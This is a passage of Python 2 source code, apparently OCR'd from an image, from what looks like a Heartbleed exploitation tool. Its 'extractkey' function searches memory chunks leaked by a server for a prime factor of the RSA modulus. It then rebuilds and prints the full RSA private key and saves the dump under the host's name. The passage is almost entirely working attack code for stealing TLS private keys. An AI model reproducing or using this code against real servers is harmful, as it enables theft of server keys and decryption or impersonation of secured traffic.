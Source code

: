        print '\n##################################################################'

        print       

        return res

    

    except Exception as e:

       print "Error! " + str(e)

       print '##################################################################'

       print               



def extractkey(host, chunk, modulus):

	

    #print "\nChecking for private key...\n"

    n = int (modulus, 16)

    keysize = n.bit_length() / 16



    for offset in xrange (0, len (chunk) - keysize):

        p = long (''.join (["%02x" % ord (chunk[x]) for x in xrange (offset + keysize - 1, offset - 1, -1)]).strip(), 16)

        if gmpy.is_prime (p) and p != n and n % p == 0:

            if opts.verbose:

                print '\n\nFound prime: ' + str(p)

            e = 65537

            q = n / p

            phi = (p - 1) * (q - 1)

            d = gmpy.invert (e, phi)

            dp = d % (p - 1)

            dq = d % (q - 1)

            qinv = gmpy.invert (q, p)

            seq = Sequence()

            for x in [0, n, e, d, p, q, dp, dq, qinv]:

                seq.setComponentByPosition (len (seq), Integer (x))

            print "\n\n-----BEGIN RSA PRIVATE KEY-----\n%s-----END RSA PRIVATE KEY-----\n\n" % base64.encodestring(encoder.encode (seq))

            privkeydump = open("hb-certs/privkey_" + host + ".dmp", "a")

            privkeydump.write(chunk)
